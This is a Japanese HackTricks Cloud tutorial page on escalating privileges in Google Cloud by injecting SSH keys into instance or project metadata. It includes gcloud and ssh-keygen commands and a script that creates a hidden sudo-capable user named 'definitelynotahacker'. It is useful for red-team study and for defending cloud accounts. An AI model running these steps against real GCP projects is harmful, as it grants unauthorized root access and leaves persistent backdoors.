 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を得た場合、重大なセキュリティリスクを引き起こす可能性があります**。

#### **カスタムメタデータへのSSHキーの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用のPython Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。この重要なコンポーネントは、**認可されたSSH公開鍵の更新**のためにインスタンスメタデータエンドポイントを**定期的にチェック**するように設計された[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)です。

したがって、攻撃者がカスタムメタデータを変更できる場合、デーモンが新しい公開鍵を見つけるように仕向けることができ、それが処理されて**ローカルシステムに統合されます**。この鍵は、**既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、鍵の形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります**。攻撃者はホストを侵害することができます。

#### **既存の特権ユーザーにSSHキーを追加する**

1. **インスタンス上の既存のSSHキーを調べる:**
*   インスタンスとそのメタデータを記述するコマンドを実行して、既存のSSHキーを見つけます。出力の関連セクションは`metadata`の下、特に`ssh-keys`キーの下にあります。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSHキーの形式に注意してください: ユーザー名は鍵の前にあり、コロンで区切られています。
2. **SSHキーのメタデータ用のテキストファイルを準備する:**
* ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、既存のキーを保持しながら新しいキーを追加するために重要です。
3. **ターゲットユーザー（この例では`alice`）のために新しいSSHキーを生成する:**
*   `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットユーザー名と一致するようにします。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 新しい公開鍵を`meta.txt`に追加し、インスタンスのメタデータに見られる形式を模倣します。
4. **インスタンスのSSHキーのメタデータを更新する:**
*   `gcloud compute instances add-metadata`コマンドを使用して、インスタンスに更新されたSSHキーのメタデータを適用します。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **新しいSSHキーを使用してインスタンスにアクセスする:**
*   新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **新しい特権ユーザーを作成し、SSHキーを追加する**

興味深いユーザーが見つからない場合は、`sudo`権限を与えられる新しいユーザーを作成することが可能です:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### プロジェクトレベルのSSHキー <a href="#sshing-around" id="sshing-around"></a>

**プロジェクトレベルでSSHキーを適用する**ことで、クラウド環境内の複数の仮想マシン（VM）へのSSHアクセスを拡大することが可能です。このアプローチにより、プロジェクト内の明示的にプロジェクト全体のSSHキーをブロックしていないインスタンスへのSSHアクセスが可能になります。以下は要約ガイドです：

1. **プロジェクトレベルでSSHキーを適用する:**
*   `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からプロジェクトのメタデータにSSHキーを追加します。この操作により、VMが「プロジェクト全体のSSHキーをブロック」オプションを有効にしていない限り、SSHキーがプロジェクト内のすべてのVMで認識されることが保証されます。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **プロジェクト全体のキーを使用してインスタンスにSSH接続する:**
* プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSH接続できます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
* インスタンスにSSH接続する直接的な方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。

## 参考文献

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
